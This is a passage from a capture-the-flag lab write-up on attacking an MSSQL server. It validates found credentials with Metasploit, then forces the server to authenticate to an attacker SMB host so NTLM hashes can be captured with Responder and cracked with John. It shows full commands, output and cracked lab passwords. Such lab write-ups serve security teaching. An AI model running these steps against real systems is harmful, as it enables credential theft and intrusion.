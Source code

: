 And bingo! We have found some credentials.

***

## User

We can confirm this by using MSF's auxiliary module mssql_login

{% highlight bash %}

msf5 auxiliary(scanner/mssql/mssql_login) > run

[*] 10.10.10.125:1433     - 10.10.10.125:1433 - MSSQL - Starting authentication scanner.
[!] 10.10.10.125:1433     - No active DB -- Credential data will not be saved!
[+] 10.10.10.125:1433     - 10.10.10.125:1433 - Login Successful: WORKSTATION\reporting:PcwTWTHRwryjc$c6
[*] 10.10.10.125:1433     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

{% endhighlight %}

Next we use these credentials to get NTLM hashes out of the server.

{% highlight bash %}
msf5 auxiliary(admin/mssql/mssql_ntlm_stealer) > show options

Module options (auxiliary/admin/mssql/mssql_ntlm_stealer):

   Name                 Current Setting   Required  Description
   ----                 ---------------   --------  -----------
   PASSWORD             PcwTWTHRwryjc$c6  no        The password for the specified username
   RHOSTS               10.10.10.125      yes       The target address range or CIDR identifier
   RPORT                1433              yes       The target port (TCP)
   SMBPROXY             10.10.14.49       yes       IP of SMB proxy or sniffer.
   TDSENCRYPTION        false             yes       Use TLS/SSL for TDS data "Force Encryption"
   THREADS              1                 yes       The number of concurrent threads
   USERNAME             reporting         no        The username to authenticate as
   USE_WINDOWS_AUTHENT  true              yes       Use windows authentification (requires DOMAIN option set)

msf5 auxiliary(admin/mssql/mssql_ntlm_stealer) > run

[*] 10.10.10.125:1433     - DONT FORGET to run a SMB capture or relay module!
[*] 10.10.10.125:1433     - Forcing SQL Server at 10.10.10.125 to auth to 10.10.14.49 via xp_dirtree...
[+] 10.10.10.125:1433     - Successfully executed xp_dirtree on 10.10.10.125
[+] 10.10.10.125:1433     - Go check your SMB relay or capture module for goodies!
[*] 10.10.10.125:1433     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(admin/mssql/mssql_ntlm_stealer) >

{% endhighlight %}

Using responder we capture the hashes then use john the ripper to crack them

{% highlight bash %}

$john --wordlist=/home/user/rockyou.txt /usr/share/responder/logs/SMBv2-NTLMv2-SSP-10.10.10.125.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
corporate568     (mssql-svc)
corporate568     (mssql-svc)
2g 0:00:00:06 DONE (2019-06-22 13:12) 0.2894g/s 1296Kp/s 2593Kc/s 2593KC/s correforenz..cornamuckla
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed

{% endhighlight %}
